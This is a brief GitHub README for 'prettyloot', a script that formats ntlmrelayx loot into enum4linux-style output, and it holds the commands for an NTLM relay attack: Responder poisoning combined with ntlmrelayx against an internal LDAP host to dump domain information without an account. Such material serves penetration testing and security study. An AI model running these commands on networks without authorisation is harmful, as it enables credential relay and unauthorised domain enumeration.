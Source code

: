 # prettyloot

Convert the loot directory of ntlmrelayx into an enum4linux like output after you dump the domain info using LDAP !

![image](https://user-images.githubusercontent.com/5891788/73091230-4afb5780-3eda-11ea-913d-20f0f0f0a561.png)

### Usage

```
python3 ntlmrelayx-prettyloot.py /tmp/loot
```

### Dumping domain info using ntlmrelayx without a domain account

```
# screen 1 => ntlmrelayx.py -t ldap://172.16.60.205 --no-da --no-acl -l /tmp/loot
# screen 2 => responder -I eth0
```

![image](https://user-images.githubusercontent.com/5891788/73091683-3e2b3380-3edb-11ea-84d7-fefb1f605d52.png)

Credits to [@ditrizna](https://twitter.com/ditrizna/status/1103964505510416384)

